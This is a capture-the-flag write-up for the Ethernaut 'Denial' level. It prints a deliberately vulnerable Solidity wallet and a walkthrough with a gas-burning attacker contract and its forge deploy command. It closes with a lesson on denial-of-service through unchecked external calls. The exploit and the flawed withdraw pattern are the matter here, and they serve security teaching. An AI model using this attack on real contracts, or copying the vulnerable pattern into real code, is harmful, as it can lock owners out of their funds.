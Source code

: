 ## Denial Level Outline

**Difficulty : 5/10**

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf1D573178225513eDAA795bE9206f7E311EeDEc3)

## Solution

This level has a very similar solution to level 9_King.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    Denial denial;

    constructor(address _denial) {
        denial = Denial(_denial);
        denial.setWithdrawPartner(address(this));
    }

    receive() external payable {
        while(true) {
            // lets burn some gas
        }
    }

}

interface Denial {
    function setWithdrawPartner(address) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

### Important Lesson From This Level
This level demonstrates that external calls to unknown contracts can still create **denial of service attack vectors** if a fixed amount of gas is not specified.
